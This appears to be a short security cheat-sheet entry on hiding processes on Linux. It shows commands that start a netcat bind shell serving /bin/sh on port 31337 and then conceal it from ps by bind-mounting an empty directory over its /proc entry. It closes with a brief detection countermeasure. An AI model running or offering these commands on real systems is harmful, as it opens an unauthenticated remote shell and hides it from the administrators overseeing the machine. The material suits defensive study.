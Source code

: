 # Hiding Processes

## Process Hiding Techniques

### Listening sockets, hiding from ps and lsof <a href="hideprocesses" id="hideprocesses"></a>

```
mkdir /tmp/empty
/bin/nc.traditional -l -p 31337 -e /bin/sh &
ps aux | grep $!
sudo mount --bind /tmp/empty /proc/$!
ps aux | grep $!
```

#### Countermeasure:&#x20;

`netstat -tulpe` and checking `cat /proc/$$/mountinfo` for suspicious mounts over `/proc`





